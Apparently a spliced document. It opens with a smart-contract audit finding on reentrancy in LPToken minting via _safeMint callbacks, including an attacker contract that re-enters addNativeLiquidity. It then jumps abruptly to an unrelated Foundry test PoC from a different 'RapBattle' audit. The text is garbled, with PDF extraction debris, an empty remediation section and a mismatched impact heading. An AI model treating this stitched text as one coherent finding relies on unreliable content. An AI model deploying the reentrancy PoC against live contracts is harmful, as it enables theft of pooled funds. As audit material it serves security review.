 3.4 (HAL-04) REENTRANCY ON LPTOKEN
MINTING - MEDIUM
Description:
The LPToken contract is ERC721 token and uses tokenMetadata to keep de-
posit amounts for other ERC20 tokens. When a user deposit native asset
or ERC20 token to the Liquidity Pool over LiquidityProviders contract,
LPToken is getting minted to track this operation. During this process,
LiquidityProvider contract calls lptoken.mint() function and LPToken con-
tract calls ERC721’s _safeMint() function. The _safeMint() function has
any callbacks, and malicious contract with onERC721Received callback can
re-enter to other contracts. This can lead to unexpected situations.
PoC Code:
Note: The following code does not mint unlimited LPTokens with 1 ETH.
It is just added to show that Re-entrancy is possible. However, this
situation may produce unexpected results.
Listing 7: Attack3.sol (Line 16)
1 // SPDX - License - Identifier : UNLICENSED
2
3 pragma solidity 0.8.0;
4 import " ./ LiquidityProviders . sol ";
5 import " @openzeppelin / contracts - upgradeable / token / ERC721 /
ë IERC721ReceiverUpgradeable . sol ";
6
7 contract Attack3 is IERC721ReceiverUpgradeable {
8 LiquidityProviders public liquidityproviders ;
9
10 constructor () public {}
11
12 function setLProvider ( address _lproviders ) external {
13 liquidityproviders = LiquidityProviders ( payable ( _lproviders ));
14 }
15
16 function onERC721Received (
17 address operator ,
24
FINDINGS & TECH DETAILS
18 address from ,
19 uint256 tokenId ,
20 bytes calldata data ) external override returns ( bytes4 ) {
21 if ( tokenId < 10) {
22 liquidityproviders . addNativeLiquidity { value : 1 e12 }() ;
23 return IERC721ReceiverUpgradeable . onERC721Received .
ë selector ;
24 }
25 else {
26 return IERC721ReceiverUpgradeable . onERC721Received .
ë selector ;
27 }
28 }
29
30 receive () external payable {}
31
32 function attack () external payable {
33 liquidityproviders . addNativeLiquidity { value : msg . value }() ;
34 }
35 }
25
FINDINGS & TECH DETAILS
Code Location:
Listing 8: LPToken.sol (Line 65)
63 function mint ( address _to ) external onlyHyphenPools whenNotPaused
ë returns ( uint256 ) {
64 uint256 tokenId = totalSupply () + 1;
65 _safeMint ( _to , tokenId );
66 return tokenId ;
67 }
Recommendation:
It is recommended to implement nonReentrant modifier to the mint function.
Other workarond is using _mint function that does not have callback instead
of _safeMint function.
Remediation Plan:


Impact : High
// POC for the battles won is not updated after the user won the battle

   modifier twoSkilledRappers() {
        vm.startPrank(user);
        oneShot.mintRapper();
        oneShot.approve(address(streets), 0);
        streets.stake(0);
        vm.stopPrank();

        vm.startPrank(challenger);
        oneShot.mintRapper();
        oneShot.approve(address(streets), 1);
        streets.stake(1);
        vm.stopPrank();

        vm.warp(4 days + 1);

        vm.startPrank(user);
        streets.unstake(0);
        vm.stopPrank();
        vm.startPrank(challenger);
        streets.unstake(1);
        vm.stopPrank();
        _;
    }

    
function testWinnerTransferredBetAmount(uint256 randomBlock) public twoSkilledRappers {
        vm.startPrank(user);
        oneShot.approve(address(rapBattle), 0);
        cred.approve(address(rapBattle), 3);
        console.log("User allowance before battle:", cred.allowance(user, address(rapBattle)));
        rapBattle.goOnStageOrBattle(0, 3);
        vm.stopPrank();

        vm.startPrank(challenger);
        oneShot.approve(address(rapBattle), 1);
        cred.approve(address(rapBattle), 3);
        console.log("User allowance before battle:", cred.allowance(challenger, address(rapBattle)));

        // Change the block number so we get different RNG
        vm.roll(randomBlock);
        vm.recordLogs();
        rapBattle.goOnStageOrBattle(1, 3);
        vm.stopPrank();

        Vm.Log[] memory entries = vm.getRecordedLogs();
        // Convert the event bytes32 objects -> address
        address winner = address(uint160(uint256(entries[0].topics[2])));
        assert(cred.balanceOf(winner) == 7);
        console.log("winner is" , winner);
        vm.startPrank(challenger);
        stats = oneShot.getRapperStats(1);
        vm.stopPrank();
        console.log("battlesWon by the Slim Shady is" , stats.battlesWon);
        }


    